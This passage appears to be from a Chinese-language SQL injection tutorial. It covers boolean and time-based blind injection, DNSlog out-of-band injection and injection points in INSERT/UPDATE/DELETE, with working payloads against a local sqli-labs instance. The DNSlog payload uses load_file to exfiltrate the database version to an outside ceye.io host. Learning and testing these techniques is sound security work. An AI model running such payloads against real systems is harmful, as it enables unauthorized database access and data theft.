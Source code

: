 步骤跟正常注入一样，只不过是逐位判断ascii码，如果为某个值，就sleep延时几秒的方式。



### **布尔盲注**

```bash

?id=1' and substr((select user()),1,1)='r' -- +

?id=1' and IFNULL((substr((select user()),1,1)='r'),0) -- +
#如果 IFNULL 第一个参数的表达式为 NULL，则返回第二个参数的备用值，不为 Null 则输出值

?id=1' and strcmp((substr((select user()),1,1)='r'),1) -- +
#若所有的字符串均相同，STRCMP() 返回 0，若根据当前分类次序，第一个参数小于第二个，则返回 -1 ，其它情况返回 
```





### DNSlog注入

> 解决了盲注不能回显数据，效率低的问题

**前提：**
需要高权限
需要是Windows系统



**工具：**

http://ceye.io/
或者其他DNSlog平台
工具，如：https://github.com/ADOOO/DnslogSqlinj



使用语句：

```bash
http://127.0.0.1:8080/sqlilabs/less-2/?id=-1 and if((select load_file(concat('\\\\',(select version()),'.1t7i2f.ceye.io\\abc'))),1,0)--+
# 使用load_file函数，里面带上我们dns log平台的域名， 然后在平台的DNSQuery里面看到结果

```

![](http://image.xpshuai.cn/img/image-20220119192501632.png)









## insert,delete,update

insert,delete,update 主要是用到盲注和报错注入，此类注入点**不建议使用 sqlmap 等工具**，会造成大量垃圾数据，一般这种注入会出现在 注册、ip头、留言板等等需要写入数据的地方,同时这种注入不报错一般**较难发现**，我们可以**尝试性插入** 引号、双引号、转义符 \ 让语句不能正常执行，然后如果插入失败，更新失败，然后深入测试确定是否存在注入
